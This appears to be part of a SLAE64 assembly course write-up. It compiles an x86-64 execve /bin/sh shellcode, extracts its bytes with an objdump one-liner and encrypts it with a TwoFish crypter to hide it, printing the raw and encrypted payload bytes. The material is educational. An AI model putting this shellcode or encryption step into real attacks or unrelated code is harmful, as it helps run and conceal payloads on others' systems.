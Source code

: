 #### Generate Execve Stack Shellcode

Just compiling and using `objdump` the shellcode is generated:

```bash
SLAE64> nasm -f elf64 Execve-Stack.nasm -o Execve-Stack.o
SLAE64> echo “\"$(objdump -d Execve-Stack.o | grep '[0-9a-f]:' | 
              cut -d$'\t' -f2 | grep -v 'file' | tr -d " \n" | sed 's/../\\x&/g')\"""

"\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89
 \xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05"
 
SLAE64>
```

<img src="https://galminyana.github.io/img/A07_Execve_Shellcode.png" width="75%" height="75%">

#### Crypt the Shellcode

This shellcode is placed in the `code[]` string in the [TwoFish_Crypter.c](https://github.com/galminyana/SLAE64/blob/main/Assignment07/TwoFish_Crypter.c) file:

```c
unsigned char code[]= \
"\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50"
"\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";
```

Compile and run, and we get the following output:
- The original shellcode and it's size in bytes
- The Password used to crypt
- The generated IV in hex format for the encryption
- The encrypted shellcode in ASM and C format

> To compile with using `libmcrypt`, the following flags are needed for `gcc`: `-L/usr/include -lmcrypt`.
> Password used for TwoFish is "12345678".

```c
SLAE64> gcc -L/usr/include -lmcrypt TwoFish_Crypter.c -o TwoFish_Crypter
SLAE64> ./TwoFish_Crypter 

Original Shellcode to Cypher (32 bytes):
0x48,0x31,0xc0,0x50,0x48,0xbb,0x2f,0x62,0x69,0x6e,0x2f,0x2f,0x73,0x68,0x53,0x48,0x89,0xe7,0x50,0x48,0x89,0xe2,0x57,0x48,0x89,0xe6,0x48,0x83,0xc0,0x3b,0x0f,0x05

TwoFish IV value (C format): \xae\xf6\x9d\xac\xf7\xfa\x5e\xf1\x05\x4e\x79\x69\xc4\x38\x0a\xfa
TwoFish Password Used: 12345678

Crypted Shellcode:

  ASM Format: 
0x33,0x67,0x20,0x48,0x7c,0xcc,0x09,0x15,0xbc,0xbb,0x12,0x56,0xfb,0xe4,0xfe,0x74,0xaf,0x21,0x38,0x48,0x48,0x01,0xe8,0xee,0x2c,0x73,0xa0,0x1a,0xe3,0xba,0x5c,0xc4

  C Format: 
\x33\x67\x20\x48\x7c\xcc\x09\x15\xbc\xbb\x12\x56\xfb\xe4\xfe\x74\xaf\x21\x38\x48\x48\x01\xe8\xee\x2c\x73\xa0\x1a\xe3\xba\x5c\xc4

SLAE64> 
```
